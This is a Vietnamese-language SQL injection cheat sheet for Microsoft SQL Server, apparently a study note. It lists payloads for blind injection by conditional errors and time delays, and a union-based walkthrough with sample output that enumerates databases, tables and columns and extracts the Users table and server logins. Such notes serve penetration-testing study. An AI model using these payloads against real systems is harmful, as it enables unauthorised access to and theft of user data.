 # Tổng quan

- SQL Server hoạt động tốt với .NET
- SQL server sử dụng một storage engine được phát triển bởi Microsoft
- Cho phép hủy query giữa chừng
- SQL Server chủ yếu hỗ trợ Windows, với các tùy chọn triển khai đám mây cho Linux và macOS thông qua Docker.

# String concatenation

```
'Kit'+'Kat'
```

# Substring

```
SUBSTRING('carrot', 4, 2)
```

# Comments

```sql
/*comment*/
--comment
```

# Database version

```sql
SELECT @@version
```

# Database name

```sql
SELECT DB_NAME()
```

# Database contents

```sql
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME'
```

# Conditional errors

```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
```

# Time delays

```sql
WAITFOR DELAY '0:0:10'
```

# Conditional time delays

```
IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10
```

# MSSQL Union Based

```sql
-- lấy tên database
$ SELECT name FROM master..sysdatabases -- `..` dùng để chỉ đối tượng trong 1 cơ sở dữ liệu cụ thể
[*] Injection
[*] msdb
[*] tempdb

-- lấy bảng có trong database Injection 
$ SELECT name FROM Injection..sysobjects WHERE xtype = 'U' -- `U` đại diện cho bảng user
[*] Profiles
[*] Roles
[*] Users
 
-- lấy cột có trong bảng Users
$ SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Users')
[*] UserId
[*] UserName
-- tìm id của bảng `Users` trong `sysobjects`, sau đó tìm tất cả cột có trong bảng `Users` từ `syscolumns`

-- láy thông tin
$ SELECT  UserId, UserName from Users
```

# Current User

```sql
SELECT user_name(); 
SELECT system_user; 
SELECT user;
```

# List users

```sql
SELECT name FROM master..syslogins
```


